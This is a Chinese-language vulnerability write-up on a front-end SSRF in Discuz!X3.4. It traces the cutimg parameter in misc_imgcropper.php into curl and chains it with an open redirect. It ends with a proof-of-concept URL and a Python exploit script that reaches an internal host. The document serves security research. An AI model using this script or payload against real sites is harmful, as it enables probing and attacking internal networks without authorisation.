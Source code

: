 # Discuz x3.4 前台ssrf

## 一、漏洞简介

Discuz!X3.4 source/module/misc/misc_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

## 二、漏洞影响

<= x3.4

windows

php>5.3+php-curl<=7.54

DZ开放在80端口

## 三、复现过程

漏洞分析

本地ssrf

`/source/module/misc/misc_imgcropper.php` 55行


```php
    require_once libfile('class/image');    $image = new image();   $prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl']; if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {     showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true)); }
$prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb
```

source/class/class_image.php 51行


```php
    function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {        $return = $this->init('thumb', $source, $target, $nosuffix);    }
```

拼接后的参数作为`$source`又传进了init函数

source/class/class_image.php 118行


```php
    function init($method, $source, $target, $nosuffix = 0) {       global $_G;     $this->errorcode = 0;       if(empty($source)) {            return -2;      }       $parse = parse_url($source);        if(isset($parse['host'])) {         if(empty($target)) {                return -2;          }           $data = dfsockopen($source);            $this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');           if(!$data || $source === FALSE) {               return -2;          }           file_put_contents($source, $data);      }
```

可以发现如果`$source`经过parse_url的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入dfsockopen函数。Php中的parse_url函数是可以对//开头的域名进行解析的, `$source`本身就是/开头，因此只需要通过开始的`$_GET['cutimg']`注入/url，变成//url`即可继续执行。

![](images/15889913688909.png)


source/function/function_core.php 199行


```php
function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {    require_once libfile('function/filesock');  return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);}
```

进入dfsockopen函数后，我们构造的字符串变为$url，然后传入了_dfsockopen函数。

dz/source/function/function_filesock.php 31行

![](images/15889913875108.png)


发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse_url解析了一次$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![](images/15889913952459.png)


其`$scheme`为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![](images/15889914069633.png)


在php的curl中我们尝试访问`://dz/forum.php`

![](images/15889914184134.png)


可以发现无指定协议的默认就是http协议，`://`是代表访问本地`dz/forum.php`表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![](images/15889914375404.png)


再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

**前台任意url跳转**

/source/class/class_member.php 310行

![](images/15889914477955.png)


调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function_core.php 1498行

![](images/15889914544090.png)


`$_G['referer']`这个参数我们可控，同样使用了parse_url进行了解析，首先对协议进行了判断，需要属于http/https。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，`$_SERVER[‘HTTP_HOST’]`此时为空，但是和www.进行了，因此这里域名为www.即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为#@出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![](images/15889914751402.png)


站内ssrf->前台get型的任意url跳转->ssrf漏洞

**总结：**

因为应用程序的远程下载功能过滤不严，利用php中的parse_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

poc


```
htp://url/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1
```

python 脚本


```python
# coding=utf-8
import requests
import re
from urllib.parse import urlparse, quote
from urllib import parse
if __name__ == "__main__":
    url = "http://192.168.66.129/dz/"
    ssrf_target = "192.168.0.36:6666"
    path = urlparse(url).path
    payload = quote(
        "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
            ssrf_target=ssrf_target))
    s = requests.Session()
    html = s.get(url).text
    searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
    formhash = searchObj.group(1)
    rs = s.post(
        url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
            formhash=formhash, path=path, payload=payload))
    exit()
```

![](images/15889915063502.png)


参考链接

http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html
